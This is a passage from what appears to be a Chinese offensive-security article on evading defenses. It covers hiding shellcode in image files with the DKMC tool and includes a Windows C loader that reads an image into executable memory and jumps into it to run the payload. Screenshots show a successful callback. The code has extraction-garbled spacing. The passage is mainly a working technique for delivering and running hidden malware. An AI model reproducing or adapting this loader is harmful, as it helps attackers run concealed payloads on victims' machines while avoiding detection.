 执行压缩包程序上线：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAISMRY3ibSOX46nhtnXb4bRwqKia3ic95UXGDZF6voY2qZTQT3tCQoxiadQ/640?wx_fmt=png)

**2. 8 shellcode 图片隐写**
-----------------------

该手法较为常见，可以把有代码的图片放在本地或者网上来加载或通信。使用 https://github.com/Mr-Un1k0d3r/DKMC 该项目把 shellcode 隐写到图片中。

先用 pythondkmc.py，运行项目，然后使用 sc 命令再用 setsource shellcode.txt 设置 shellcoe 文本或使用 gen 命令再使用 setshellcode 设置具体的 shellcode，再 run 运行得到插入 shellcode 的图片：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAN7pFyJJmVSOpU8kYGiavmU2p9BlPdND73FCxW7B18gQD9ibsUbdEb78Q/640?wx_fmt=png)

使用加载器读取图片，执行 shellcode，加载器使用平时读取文件的加载器就可以：

```
#include<stdio.h>
#include<windows.h>


intmain(int argc, char* argv[]) {
HANDLEhFile = CreateFile("D:\\out.bmp", GENERIC_READ,FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if(hFile == INVALID_HANDLE_VALUE)
{
printf("Error");
return-1;
}
DWORDdwSize;
dwSize= GetFileSize(hFile, NULL);
LPVOIDlpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT,PAGE_EXECUTE_READWRITE);
if(lpAddress == NULL)
{
printf("Error");
return-1;
}
RtlZeroMemory(lpAddress,dwSize);
DWORDdwRead;
ReadFile(hFile,lpAddress, dwSize, &dwRead, 0);


system("pause");
__asm{
calllpAddress;
}
_flushall();
return0;
}
```

执行上线：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAHoAf8zRDzuMpb3LuBia6yk6aIjiaaDkVkXR2e5ZGXorJJL3TLgia05NNg/640?wx_fmt=png)
